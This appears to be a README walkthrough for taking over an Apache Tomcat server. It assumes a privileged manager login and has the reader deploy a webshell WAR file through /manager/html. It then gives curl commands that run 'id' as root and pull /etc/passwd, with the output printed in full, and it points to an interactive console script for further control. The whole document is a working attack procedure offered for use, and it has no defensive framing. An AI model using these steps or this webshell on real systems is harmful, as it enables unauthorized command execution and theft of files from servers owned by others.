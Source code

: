 # Apache Tomcat - Upload an app

## Requirements

 - A valid **username and password** of a user with high privileges on Apache Tomcat.

## Exploitation

### Step 1: Access the Tomcat manager and upload the webshell application

First of all, you will need to access the Apache Tomcat `/manager` page at http://TARGET:10080/manager/html, and connect to it with an high privilege account of the Apache Tomcat server.

![](./imgs/manager.png)

Compile the webshell application or download a release here: https://github.com/p0dalirius/Tomcat-application-webshell/. Then choose the WAR file of the [webshell application](https://github.com/p0dalirius/Tomcat-application-webshell/) and click on "Deploy":

![](./imgs/upload_a_plugin.png)

And the application is deployed:

![](./imgs/webshell_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://TARGET:10080/webshell/api with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://TARGET:10080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=0(root) gid=0(root) groups=0(root)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://TARGET:10080/webshell/api with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://TARGET:10080/webshell/api' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/Tomcat-application-webshell/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/168489455-023b52c5-e8a9-4cd9-96ca-f26c14304236.mp4

## References
 - https://tomcat.apache.org/
 - https://github.com/p0dalirius/Tomcat-application-webshell/
